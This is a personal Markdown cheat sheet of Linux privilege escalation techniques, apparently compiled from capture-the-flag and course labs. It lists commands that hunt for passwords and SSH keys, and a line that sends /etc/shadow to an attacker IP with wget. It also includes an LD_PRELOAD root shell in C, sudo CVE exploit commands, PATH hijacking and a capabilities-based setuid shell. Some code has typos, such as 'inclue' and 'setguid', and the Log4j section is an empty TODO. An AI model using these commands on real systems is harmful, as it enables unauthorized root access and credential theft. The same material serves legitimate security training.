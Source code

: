 **1. Basic CMDs**
**2. SUIDS, LD_PRELOAD, && CVE's**
**3. Other Escalation Techniques**
**4. Log4j**
**5. References**

---

###**1 Basic CMDs::**###
+ invoke-rc.d - All access to the init scripts by Debian packages' maintainer scripts should be done through invoke-rc.d
+ ip neigh - like arp -a 
  + check the communication between IP's and ports
+ grep --color=auto -rnw '/' -ie "PASSWORD(=)" --color=always 2>/dev/null (Very nice grep cmd)
+ find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
+ cat .ovpn - sometimes has password info
+ sudo -l
+ ps aux - for ports
+ find / -name authorized_keys 2>/dev/null
+ find / -name id_rsa 2>/dev/null
+ find / -type f -perm -04000 ls 2>/dev/null
+ strace /dir/to/sicky/bit(X.so) 2>&1 | grep -i -E "open|access|no such file"

+ intended functionality:
+ sudo apache -f /etc/shadow
+ sudo wget --post-file=/etc/shadow <attacker-ip>:8081 #Send the shadow file to self
---

###**2. SUIDS, LD_PRELOAD, && CVE's**###

**CVE's && LD_PRELOAD::**
+ Privesc with LD_PRELOAD=
  + `sudo -l :: env_reset, env_keep+=LD_PRELOAD`
  + ***run malicious library before any other***
---
vim shell.c
```
#inclue<stdio.h>
#inclue<sys/types.h>
#inclue<stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setguid(0);
    setuid(0);
    system("/bin/bash");
}
```
`$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
`$ sudo LD_PRELOAD=/path/to/file/shell.so apache2  #service from sudo -l` :: root@XYZ#

dirsearch - similar to gobuster/dirbuster 

brute_forcing with CMS made simple: see ![brute_force_cms_script](screenshots/CMS_made_simple_brute_force.png) && "fun_brute_force_script"

**CVE-2019-14287::**
`sudo -l :: hacker ALL=(ALL,!root) /bin/bash`
`# sudo -u#-1 /bin/bash`
# https://tryhackme.com/room/sudovulnsbypass
# Exploit-DB for CVE-2019-14287 - https://www.exploit-db.com/exploits/47502


**CVE-2019-18634::**
`cat /etc/sudoers :: Defaults env_rest,pwfeedback`
`# sudo -V :: 1.8.21p2 && file grammar V 46`
`./exploit #C program` See ![cve](screenshots/cve_2019_18634.png)
# https://tryhackme.com/room/sudovulnsbof
# Exploit CVE-2019-18634 - https://github.com/saleemrashid/sudo-cve-2019-18634

**CVE-2021-3156 Baron Samedit::**
```
Affects any unpatched sudo 1.8.2-1.8.31p2-1.9.0-1.9.5p1
This time the vulnerability is a heap buffer overflow, as opposed to the stack buffer (CVE-2019-18634)
The stack is a very regimented section of memory which stores various important aspects of a program. \
The heap, on the other hand, is reserved for dynamic allocation of memory, \
allowing for more flexibility in how values and constructs are created and accessed by a program.
```
See ![is_vuln?](screenshots/cve_2021315.png)
# https://github.com/blasty/CVE-2021-3156
# https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
```
make
./sudo-hax-me-a-sandwich
# See ![sudo_root_cve_20211316](screenshots/cve_2021315_make_run.png)
```

##**SUID - Shared Object Injection::**##
`find / -type f -perm -04000 -ls 2>/dev/null`
TODO:: Escalation via shared object injection

##**SUID escalation w/ Binary Symlinks via nginx::**##
https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
https://academy.tcm-sec.com/courses/1154399/lectures/24800164
---

##**SUID escalation w/ env variables::**##
https://academy.tcm-sec.com/courses/1154399/lectures/24800170
```
strings /usr/local/bin/suid-env :: "etc etc... service apache2 start
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > tmp/service
gcc /tmp/service.c -o /tmp/service
export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```
###** 3. Other Escalation techniques::**###


Enumeration::
wfuzz -c -f sub-fighter -w /subdomains-top1million-110000.txt -u 'http://cmess.thm' -H "HOST: FUZZ.cmess.thm"

##**Escalation w/ capabilities::**##
```
getcap -r / 2>/dev/null :: /usr/bin/python2.6 = cap_setuid+ep #Permit effective || permit everything
usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash") :: whoami# root'
tar,openssl,perl,etc,etc
```
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
https://mn3m.info/posts/suid-vs-capabilities/
https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

##**Escalation w/ scheduled tasks cron/timers::**##
```
cat /etc/crontab
systemctl list-timers --all
```


###**3. Log4j**###
**CVE-2021-44228 log4j::**
TODO:: 
# [](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java)
# [](https://log4shell.huntress.com/)
# [](https://www.youtube.com/watch?v=7qoPDq41xhQ)
# [](https://github.com/YfryTchsGD/Log4jAttackSurface)

** 4. References::**
```
[Lin_enum_tips](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[tools_&_checklists](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
[hacktricks_lin_privesc](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
[OWASP_lin_privesc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
[TCM_GITHUB](https://github.com/TCM-Course-Resources/Linux-Privilege-Escalation-Resources)
[TCM_THM](https://tryhackme.com/room/linuxprivescarena)
[sql-injection_CMSMS_exploit](https://www.exploit-db.com/exploits/46635)
[dirsearch](https://github.com/maurosoria/dirsearch)
```
